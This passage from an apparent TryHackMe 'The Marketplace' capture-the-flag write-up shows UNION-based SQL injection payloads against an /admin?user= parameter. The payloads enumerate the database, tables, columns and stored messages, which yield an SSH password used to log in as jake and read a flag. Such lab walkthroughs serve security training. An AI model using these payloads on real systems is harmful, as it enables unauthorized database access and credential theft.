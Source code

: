 This indicated that I had broken out of the SQL syntax somehow, suggesting the parameter was vulnerable to SQL injection. I proceeded by injection a `union` attack to gain access to more data in the database. The initial SQL query returned four values, so the following `union` query was succeeded:

![SQLi Union](/assets/img/tryhackme/TheMarketplace/thm_themarketplace_4.jpg)

With this working SQL query, I continued enumerating the database. Due to encoding issues, I used Burp Suite's Hexavector plugin:
```bash
payload:  /admin?user=<@urlencode>5 union select 1,database(),3,4</@urlencode>
response: marketplace

payload:  /admin?user=<@urlencode>5 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='marketplace'</@urlencode>
response: items,messages,users

payload:  /admin?user=<@urlencode>5 union select 1,group_concat(COLUMN_NAME),3,4 from information_schema.columns where table_name = 'messages'</@urlencode>
response: id,user_from,user_to,message_content,is_read

payload:  /admin?user=<@urlencode>5 union select 1,message_content,3,4 from messages</@urlencode>
```

I started by searching for existing databases, which I then used to enumerate the tables. The messages table, caught my attention, so I enumerated its columns. Upon accessing the messages, I discoverd an interesting one:

![Message](/assets/img/tryhackme/TheMarketplace/thm_themarketplace_5.jpg)

Great! I obtained an SSH password. I attempted to log in first as michael and then as jake. I successfully logged in as jake and retrieved the first flag:
```bash
kali@kali:~/ctf/marketplace$ ssh michael@10.10.182.139
  michael@10.10.182.139's password: 
  Permission denied, please try again.
kali@kali:~/ctf/marketplace$ ssh jake@10.10.182.139
jake@the-marketplace:~$ id
  uid=1000(jake) gid=1000(jake) groups=1000(jake)
jake@the-marketplace:~$ cat user.txt 
  THM{c[removed]4}
```
